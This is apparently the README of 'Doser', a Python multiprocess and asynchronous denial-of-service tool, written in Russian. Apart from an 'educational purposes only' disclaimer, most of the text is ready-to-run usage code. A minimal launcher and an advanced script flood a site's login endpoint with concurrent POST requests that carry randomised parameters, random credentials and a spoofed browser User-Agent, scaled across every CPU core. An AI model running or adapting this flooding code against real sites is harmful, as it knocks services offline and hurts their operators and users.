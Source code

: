 # Doser

>Автор не несет ответственности за негативные последствия, полученные
в результате использования данного репозитория. Весь код представлен
исключительно в образовательных целях!

Doser — многопроцессорный + асинхронный инструмент для DoS-атак.

## Установка зависимостей

```bash
pip install -r requirements.txt
```

## Минимальный пуск

```python
from dos import Doser
import multiprocessing as mp


if __name__ == '__main__':
    mp.freeze_support()

    try:
        Doser().start('https://example.com')
    except KeyboardInterrupt:
        print('\n- Aborted -')
```

## Расширенный пуск

```python
from dos import Doser, AlwaysRandomValue
from aiohttp import ClientResponse
import multiprocessing as mp
import string, time


_TIMEOUT_SEC = 7

def _url_format_callback(url: str, *_: any) -> str:
    return url.format(AlwaysRandomValue((2225, 2700), extra_chars=' ')())

async def _response_callback(response: ClientResponse, i: int, pid: int) -> None:
    pass

def _main(cpu_count: int) -> None:
    Doser(
        process_count=cpu_count,
        async_request_count=150
    ).start(
        url='https://example.com/login/?option={}',
        method='POST',
        timeout_sec=_TIMEOUT_SEC,
        url_format_callback=_url_format_callback,
        response_callback=_response_callback,
        allow_redirects=False,
        headers={
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36'
        },
        data={
            'login': AlwaysRandomValue(12, string.digits),
            'password': AlwaysRandomValue((9, 15)),
        },
        cookies={
            'name': 'value'
        }
    )

if __name__ == '__main__':
    mp.freeze_support()

    try:
        cpu_count = mp.cpu_count()

        print(f'- CPU count: {cpu_count} -\n')
        time.sleep(2)

        _main(cpu_count)
    except KeyboardInterrupt:
        print('\n- Aborted -')
```

## Протестирован на

- Windows 11
- [Python v3.11.4](https://www.python.org/downloads)
